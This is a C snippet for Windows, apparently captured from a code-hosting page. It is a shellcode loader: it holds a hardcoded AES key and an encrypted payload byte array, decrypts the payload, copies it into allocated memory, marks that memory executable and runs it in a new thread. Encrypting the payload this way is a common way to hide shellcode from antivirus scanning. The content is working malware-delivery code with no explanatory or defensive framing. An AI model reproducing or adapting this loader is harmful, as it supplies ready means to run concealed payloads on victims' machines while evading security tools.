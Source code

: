 ```
    unsigned char AESkey[] = { 0x30, 0xe2, 0xd, 0xa2, 0xff, 0x83, 0xe7, 0xef, 0x48, 0xf5, 0x17, 0xe2, 0x51, 0x9c, 0x53, 0xde };
    unsigned char payload[] = { 0xd2, 0xf1, 0x78, 0x8d, 0x3f, 0x37, 0xf6, 0x7b, 0x15, 0x8c, 0xe8, 0x2, 0x2b, 0xd6, 0x1d, 0x55, 0x7d, 0xc1, 0xd5, 0x9, 0xd5, 0xc7, 0x41, 0xd6, 0x4e, 0x42, 0x32, 0x6e, 0x14, 0x93, 0x6, 0xa3, 0xde, 0x2d, 0xb1, 0xe0, 0x0, 0x88, 0xe7, 0x30, 0xab, 0xf9, 0xa5, 0xf9, 0x64, 0xc8, 0x61, 0x8d, 0xb4, 0x5a, 0x63, 0xc, 0x60, 0x97, 0x58, 0xfd, 0xbc, 0x42, 0x85, 0x15, 0x67, 0xa5, 0xbb, 0x28, 0xe2, 0x35, 0xe2, 0xf5, 0x31, 0xff, 0x31, 0xac, 0x1, 0xea, 0x3b, 0xea, 0x0, 0x81, 0x75, 0xa7, 0x21, 0x5, 0x5e, 0x99, 0x7f, 0xe8, 0x1f, 0x19, 0x83, 0x60, 0x62, 0x64, 0x59, 0xf2, 0x68, 0x4b, 0x56, 0x41, 0x48, 0x19, 0x5e, 0x54, 0x7c, 0x75, 0x8e, 0xf7, 0x9b, 0x96, 0x1b, 0xad, 0x4a, 0xca, 0xfc, 0x8c, 0x19, 0x3f, 0x41, 0x76, 0x14, 0x9, 0x92, 0x6b, 0x63, 0x69, 0xad, 0xfe, 0xb4, 0xdd, 0x41, 0xd4, 0xa9, 0x42, 0x2f, 0xdb, 0x30, 0xf6, 0x70, 0xa5, 0x0, 0xc1, 0x76, 0xf8, 0x54, 0x77, 0xaf, 0x9b, 0xf, 0x2e, 0xf6, 0x8d, 0xa, 0x45, 0x4e, 0xb9, 0x4f, 0xc6, 0x62, 0xcb, 0xc9, 0x1, 0x51, 0x59, 0xdd, 0xa7, 0x4f, 0x44, 0xbe, 0x2e, 0xd6, 0xac, 0x5f, 0xe0, 0x52, 0xc5, 0x88, 0x55, 0x65, 0xa9, 0x65, 0x79, 0xc3, 0x4a, 0x4f, 0x33, 0xca, 0xaf, 0xe1, 0xa6, 0x53, 0xf4, 0xe7, 0x83, 0xe, 0x20, 0xab, 0x96, 0xb2, 0xd3, 0x9a, 0x95, 0x29, 0x80, 0x4e, 0x7e, 0x5c, 0x5d, 0xf5, 0x2f, 0x5e, 0xf7, 0x4d, 0x83, 0xb2, 0xe6, 0x5f, 0xa8, 0x80, 0xae, 0x54, 0x37, 0x3a, 0xf8, 0xb1, 0x2, 0x87, 0xfc, 0x80, 0xa2, 0x5b, 0xba, 0x81, 0x52, 0xaf, 0xd1, 0xb, 0xd0, 0x25, 0x1a, 0x30, 0x6, 0x89, 0x77, 0x73, 0xf5, 0xeb, 0x4b, 0x14, 0x51, 0x81, 0xd7, 0x37, 0xfd, 0xde, 0x1c, 0x60, 0x52, 0xae, 0xb0, 0xc3, 0x7f, 0x4f, 0xdf, 0x43, 0x57, 0x58, 0x6a, 0xb5, 0xbd, 0x32, 0x65, 0xcd, 0x72, 0x3f, 0xb7, 0x65, 0x54, 0x9c, 0xe9, 0x25, 0x47, 0x38, 0x79, 0x49, 0xf1, 0x27, 0xcc, 0x3, 0x88, 0xaa, 0x21, 0xfe, 0xa4, 0x6, 0xee, 0x3a, 0xdf, 0xc0, 0xb3, 0x61, 0x8a, 0xed, 0xd6, 0xda, 0x3d, 0x58, 0x3b, 0xd8, 0xe6, 0x70, 0x18, 0xe3, 0x5a, 0x23, 0x42, 0xfa, 0x22, 0x9f, 0xa5, 0x86, 0x23, 0x71, 0xd, 0x56, 0x9e, 0x4, 0xeb, 0x9d, 0x2, 0x83, 0x82, 0x1c, 0x3, 0x85, 0xc4, 0x72, 0xf8, 0x48, 0xc3, 0x8c, 0x75, 0x75, 0x75, 0xd0, 0x55, 0x95, 0xfb, 0xf0, 0x73, 0xc6, 0xf3, 0xd6, 0xd2, 0xbb, 0x24, 0x7b, 0xe9, 0x33, 0xfd, 0x1c, 0x6c, 0x6b, 0x54, 0x2f, 0x88, 0x25, 0xc2, 0x77, 0x8, 0x5c, 0xab, 0x4, 0xa, 0xf4, 0x10, 0x8, 0xa6, 0x71, 0xe5, 0xb9, 0x8d, 0x83, 0x88, 0xc, 0xb2, 0xf9, 0xd0, 0x57, 0xf0, 0xd5, 0xc1, 0x7e, 0xec, 0xc6, 0x87, 0x8e, 0x7f, 0x68, 0xf3, 0xd3, 0xc8, 0x92, 0xf8, 0x67, 0xa2, 0x42, 0x24, 0x7e, 0xbf, 0xc0, 0x4f, 0x5c, 0xe5, 0x31, 0xa4, 0x4f, 0x44, 0xac, 0x2e, 0xb0, 0xcb, 0xb9, 0x8b, 0x4b, 0xf6, 0x29, 0x89, 0x2a, 0x98, 0x23, 0x9, 0xd6, 0xac, 0x37, 0xca, 0xeb, 0xf4, 0x3d, 0x69, 0x5b, 0xb6, 0xf9, 0x11, 0x7f, 0x52, 0x3e, 0x50, 0x41, 0x65, 0x91, 0x55, 0xab, 0x64, 0x11, 0xd7, 0xcc, 0xa9, 0x57, 0x8e, 0x6d, 0xd3, 0x7f, 0xdf, 0xd4, 0xe2 };

    DWORD payload_length = sizeof(payload);

    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    if (!alloc_mem) {
        printf("Failed to Allocate memory (%u)\n", GetLastError());
        return -1;
    }
    
    DecryptAES((char*)payload, payload_length, AESkey, sizeof(AESkey));
    MoveMemory(alloc_mem, payload, sizeof(payload));

    DWORD oldProtect;

    if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
        printf("Failed to change memory protection (%u)\n", GetLastError());
        return -2;
    }


    HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
    if (!tHandle) {
        printf("Failed to Create the thread (%u)\n", GetLastError());
        return -3;
    }

    printf("\n\nalloc_mem : %p\n", alloc_mem);
    WaitForSingleObject(tHandle, INFINITE);

    return 0;

```